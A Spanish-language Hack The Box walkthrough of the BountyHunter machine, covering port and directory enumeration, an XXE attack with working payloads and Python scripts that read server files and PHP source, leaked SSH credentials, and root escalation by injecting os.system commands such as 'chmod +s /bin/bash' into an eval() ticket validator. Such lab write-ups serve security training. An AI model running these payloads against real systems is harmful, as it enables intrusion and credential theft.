---

# Descripcion

BountyHunter es una máquina Linux de dificultad fácil en Hack The Box. El acceso inicial se logra analizando un portal web de reporte de vulnerabilidades que procesa datos en XML. Mediante una inyección XXE (XML External Entity) con filtros PHP, se extraen credenciales de la base de datos que permiten acceder por SSH como el usuario development. Para escalar privilegios a root, se explota un script en Python ejecutable con sudo que valida tickets empleando una función insegura eval(), logrando ejecución arbitraria de comandos.

---


# Enumeración

## Nmap

> Comenzamos realizando un escaneo de todos los puertos para identificar los servicios expuestos en la máquina.

```bash
$ nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.95.166
```



> Una vez identificados los puertos abiertos, realizamos un segundo escaneo para obtener información más detallada sobre los servicios y sus versiones.

```bash
$ nmap -p22,80 -sC -sV 10.129.95.166
```



## Web

> Utilizamos `whatweb` para identificar las tecnologías empleadas por la aplicación web.

```bash
$ whatweb http://bountyhunter.htb
```



> Accedemos a la página web para ver a su contenido.



> A continuación, utilizamos `gobuster` para descubrir posibles directorios y archivos existentes en el servidor web.

```bash
$ gobuster dir -u http://bountyhunter.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100 -x php,txt,php.bak
```



> Si accedemos al directorio `portal`, encontramos una página que indica que está en construcción, aunque nos redirige a otro archivo `.php`.





> Encontramos una versión `Beta` de un formulario para reportar vulnerabilidades (*Bounty*). Vamos a interceptar la petición utilizando `Burp Suite` para analizar cómo se envían los datos.



> Al rellenar los campos y enviar el formulario, comprobamos que los datos se convierten a `Base64`. Vamos a decodificarlos para analizar su contenido.



> Observamos que estamos enviando información en formato `XML`, por lo que vamos a intentar añadir una entidad y comprobar si el servidor la procesa correctamente.





# Shell como development

## XXE

> Comprobamos que podemos utilizar entidades XML. Vamos a intentar explotar esta funcionalidad mediante una vulnerabilidad `XXE` (*XML External Entity*) para leer archivos del sistema.





> Conseguimos leer archivos del sistema. Al revisar el archivo `/etc/passwd`, observamos que el único usuario que tiene asignada una shell `bash` es `development`.
>
> Para facilitar la extracción de archivos, vamos a crear un pequeño script en Python que automatice el proceso y nos evite tener que convertir manualmente los datos a `Base64` y realizar la codificación URL en cada petición.

```python
import requests
import sys
import base64

url = 'http://bountyhunter.htb/tracker_diRbPr00f314.php'
file = sys.argv[1]

xml = f"""<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ENTITY myFile SYSTEM "file://{file}">]>
	<bugreport>
	<title>&myFile;</title>
	<cwe>aa</cwe>
	<cvss>aa</cvss>
	<reward>aa</reward>
	</bugreport>"""

b64_encoded = base64.b64encode(xml.encode()).decode()

data = {
    "data": b64_encoded
}

headers = {
    "X-Requested-With": "XMLHttpRequest",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
}

req = requests.post(url=url, data=data, headers=headers)
print(req.text)
```

## Enumeracion de ficheros con XXE

> Ahora vamos a intentar enumerar los archivos de la aplicación web, ya que hemos encontrado referencias a una base de datos y es posible que podamos obtener alguna contraseña.
>
> Para ello, necesitamos modificar el payload del ataque y utilizar el filtro `php://filter`, que nos permitirá obtener el código fuente de los archivos PHP en lugar de que el servidor los interprete.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
	<bugreport>
	<title>&xxe;</title>
	<cwe>aa</cwe>
	<cvss>aa</cvss>
	<reward>aa</reward>
	</bugreport>
```

> De esta manera, recibimos el contenido del archivo PHP codificado en `Base64`, por lo que tendremos que decodificarlo.
>
> Vamos a modificar el script anterior para que realice esta operación automáticamente y nos muestre directamente el contenido de los archivos.

```python
import requests
import sys
import base64
import re

url = 'http://bountyhunter.htb/tracker_diRbPr00f314.php'
file = sys.argv[1]

xml = f"""<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource={file}"> ]>
	<bugreport>
	<title>&xxe;</title>
	<cwe>aa</cwe>
	<cvss>aa</cvss>
	<reward>aa</reward>
	</bugreport>"""

b64_encoded = base64.b64encode(xml.encode()).decode()

data = {
    "data": b64_encoded
}

headers = {
    "X-Requested-With": "XMLHttpRequest",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
}

req = requests.post(url=url, data=data, headers=headers)

b64 = re.search(r'<td>([A-Za-z0-9+/=]{50,})</td>', req.text).group(1)
decoded = base64.b64decode(b64).decode()

print(decoded)
```

> Tras revisar los archivos de la aplicación, no encontramos nada especialmente interesante. Sin embargo, al repasar los resultados de `gobuster`, recordamos que habíamos descubierto un archivo llamado `db.php`, que no aparece mencionado en ningún momento en los archivos que hemos analizado.
>
> Vamos a intentar leerlo mediante el XXE.



> Conseguimos obtener las siguientes credenciales:

```text
user: development
pass: m19RoAU0hP41A1sTsq6K
```

> Probamos a conectarnos mediante `SSH` utilizando las credenciales obtenidas y conseguimos acceso al sistema.



# Shell como root

## Enumeracion

> Una vez dentro, vamos a comprobar qué permisos tenemos mediante `sudo -l`.

```bash
$ sudo -l
```



> Vemos que tenemos permisos para ejecutar un script de Python como `root`. Vamos a revisar su contenido para comprobar si existe alguna forma de aprovecharlo.

## Análisis del script

```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

> Como podemos observar en el código, se utiliza la función `eval()`. Esta función evalúa y ejecuta expresiones Python.
>
> Teniendo en cuenta que podemos proporcionar nosotros mismos el archivo del ticket, podemos crear uno personalizado e introducir código malicioso que se ejecutará cuando el programa llegue a `eval()`.


> Antes de preparar el payload, vamos a entender cómo valida los tickets el programa:

- **Primera línea:** debe comenzar por `# Skytrain Inc`.
- **Segunda línea:** debe comenzar por `## Ticket to `.
- **Código del ticket:** el bucle continúa leyendo líneas hasta encontrar `__Ticket Code:__`. Cuando lo encuentra, guarda la posición de la siguiente línea, donde espera encontrar el código.
- **Formato del código:** la línea debe comenzar por `**` y el contenido se procesa mediante una expresión que separa dos valores utilizando el símbolo `+`.
- **Primera comprobación:** obtiene el primer número y realiza una operación módulo 7. El resultado debe ser 4. Por ejemplo, `18 % 7 = 4`.
- **Segunda comprobación:** si supera la primera validación, el programa utiliza `eval()` para evaluar toda la expresión. El resultado debe ser superior a 100 para que el ticket sea válido.

> Para comprobar que hemos entendido correctamente el funcionamiento, vamos a crear un ticket que supere todas las validaciones.

```text
# Skytrain Inc
## Ticket to Madrid
__Ticket Code:__
** 18 + 160 **
```



## Explotación de eval()

> Bien, ahora que conocemos el funcionamiento del programa, vamos a aprovechar la función `eval()` para ejecutar comandos como `root`.
>
> Modificamos el ticket anterior y sustituimos el segundo número por una expresión Python que importa el módulo `os` y ejecuta el comando `whoami` mediante `system()`.

```text
# Skytrain Inc
## Ticket to Madrid
__Ticket Code:__
** 18 + __import__('os').system('whoami') **
```

Ejecutamos el script utilizando `sudo`:

```bash
$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```



> ¡Perfecto! Conseguimos ejecutar comandos como `root`. Ahora vamos a modificar el ticket para asignar permisos `SUID` al binario `/bin/bash` y conseguir una shell privilegiada.

```text
# Skytrain Inc
## Ticket to Madrid
__Ticket Code:__
** 18 + __import__('os').system('chmod +s /bin/bash') **
```

Comprobamos que se han aplicado correctamente los permisos:

```bash
$ ls -l /bin/bash
```



> Finalmente, ejecutamos Bash con la opción `-p`, que permite conservar los privilegios efectivos asociados al binario SUID.

```bash
$ bash -p
```



> ¡Conseguimos acceso como `root` y completamos la máquina **BountyHunter**!